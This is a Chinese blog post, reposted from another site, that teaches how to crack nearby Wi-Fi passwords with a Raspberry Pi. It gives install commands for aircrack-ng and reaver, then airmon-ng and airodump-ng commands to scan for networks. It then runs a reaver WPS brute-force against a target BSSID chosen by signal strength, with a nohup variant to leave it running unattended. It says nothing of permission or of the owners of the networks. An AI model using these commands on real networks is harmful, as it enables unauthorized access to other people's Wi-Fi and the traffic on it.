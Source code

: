 ```yaml
---
author: 403 Forbidden
comments: true
date: 2015-02-21 05:54:51+00:00
layout: post
slug: '%e6%a0%91%e8%8e%93%e6%b4%be%ef%bc%88raspberrypi%ef%bc%89%e5%ae%89%e8%a3%85aircrack-ngreaver%e5%8f%8awifi%e7%a0%b4%e8%a7%a3%e6%95%99%e7%a8%8b'
title: 树莓派（raspberrypi）安装aircrack-ng,reaver及wifi破解教程
wordpress_id: 2175
categories:
- 树莓派
---
```

这篇文章主要应百度贴吧水友的要求，特写了一个小教程。让pi变得更有意思。
这个无线破解和PC上的原理是一样的，只不过平台换到了PI上。PI主要就是省电，放在那里跑一个月也没事。

回到正题：

**硬件环境**
树莓派B+一个（我用的是debian环境）
PC一台（或其它设备直接操作PI就行）
无线网卡（能用就行，不过强大的无线网卡会事半功倍，我用的3070）

**安装依赖包**
```
sudo apt-get install -y libpcap-dev libsqlite3-dev sqlite3 libpcap0.8-dev libssl-dev build-essential iw tshark subversion
sudo apt-get install libnl-3-200 libnl-3-dev libnl-3-doc libnl-genl-3-dev libnl-genl-3-200
```


**安装aircarck-ng**
```
svn co http://svn.aircrack-ng.org/trunk/ aircrack-ng
cd aircrack-ng/
make
sudo make install
```


**安装reaver**
```
wget http://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz
tar zxvf reaver-1.4.tar.gz
cd reaver-1.4/src
./configure
make
sudo make install
```

如果上面下载的地址被墙，试下这个地址：/uploads/2015/02/reaver-1.4.tar.gz
如果安装成功后，会有airmon-ng,airodump-ng,reaver等命令可用。

**破解教程**
```
sudo airmon-ng start wlan0
sudo airodump-ng mon0
```

[![1](/uploads/2015/02/1-300x215.png)](/uploads/2015/02/1.png)
```
sudo airodump-ng mon0
```

根据上面的airodump搜索到的无线信号，然后可以挑信号强的进行破解（注意，要选择开了WPS功能的）
```
sudo reaver -i mon0 -b 00:00:00:00:00:00 -a -S -vv -d2 -t 5 -c 11
```

[![2](/uploads/2015/02/2-300x69.png)](/uploads/2015/02/2.png)
如果想挂机破解，记得加上nohup命令后，可以断开ssh。然后剩下就是等待。
```
nohup sudo reaver -i mon0 -b 00:00:00:00:00:00 -a -S -vv -d2 -t 5 -c 11 -o fbi &
```

[![2-2](/uploads/2015/02/2-2-300x73.png)](/uploads/2015/02/2-2.png)
如果破解成功后，打开输出的日志，就可以看到reaver出来的密码。
[![3](/uploads/2015/02/3-300x96.png)](/uploads/2015/02/3.png)

转载自 [http://lok.me/a/1972.html](http://lok.me/a/1972.html)
